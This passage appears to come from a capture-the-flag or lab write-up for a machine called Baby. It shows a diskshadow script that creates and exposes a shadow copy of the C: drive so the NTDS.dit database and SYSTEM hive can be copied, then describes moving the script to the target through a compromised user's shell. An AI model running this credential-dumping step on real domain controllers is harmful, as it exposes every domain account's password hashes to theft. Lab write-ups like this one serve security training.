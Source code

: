 So lets create the shadow copy of SYSTEM and NTDS.

To do that follow these steps.

```powershell
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
```

Save these contents to a file and converted this file to DOS format so that it can be easily read by windows.

![image.png](/assets/images/Baby_VL/image%2020.png)

Now transferring this file to our remote machine using **Caroline.robinson’s** shell.
